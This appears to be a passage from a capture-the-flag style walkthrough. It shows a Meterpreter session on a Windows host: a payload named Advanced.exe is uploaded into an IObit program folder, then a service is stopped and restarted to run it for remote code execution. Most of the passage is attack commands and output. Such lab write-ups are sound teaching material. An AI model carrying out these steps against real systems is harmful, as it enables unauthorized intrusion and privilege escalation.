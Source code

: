 ```
meterpreter > cd C:/Users/bill
meterpreter > cd 'C:\Program Files (x86)\IObit'
meterpreter > ls
Listing: C:\Program Files (x86)\IObit
=====================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  32768  dir   2025-05-11 10:55:48 -0400  Advanced SystemCare
040777/rwxrwxrwx  16384  dir   2019-09-27 01:35:24 -0400  IObit Uninstaller
040777/rwxrwxrwx  4096   dir   2019-09-26 11:18:50 -0400  LiveUpdate

```

```
meterpreter > upload /home/kali/Advanced.exe
[*] Uploading  : /home/kali/Advanced.exe -> Advanced.exe
[*] Uploaded 15.50 KiB of 15.50 KiB (100.0%): /home/kali/Advanced.exe -> Advanced.exe
[*] Completed  : /home/kali/Advanced.exe -> Advanced.exe
meterpreter > ls
Listing: C:\Program Files (x86)\IObit
=====================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  32768  dir   2025-05-11 10:55:48 -0400  Advanced SystemCare
100777/rwxrwxrwx  15872  fil   2025-05-11 11:53:24 -0400  Advanced.exe
040777/rwxrwxrwx  16384  dir   2019-09-27 01:35:24 -0400  IObit Uninstaller
040777/rwxrwxrwx  4096   dir   2019-09-26 11:18:50 -0400  LiveUpdate

```

Now we need to do RCE

**Return to the meterpreter shell** and follow the steps below once the netcat has been launched as shown in the image above:1st — **shell** 2nd — **sc stop AdvancedSystemCareService9** 3rd — **sc start AdvancedSystemCareService9**

```
meterpreter > shell
Process 1808 created.
Channel 6 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
```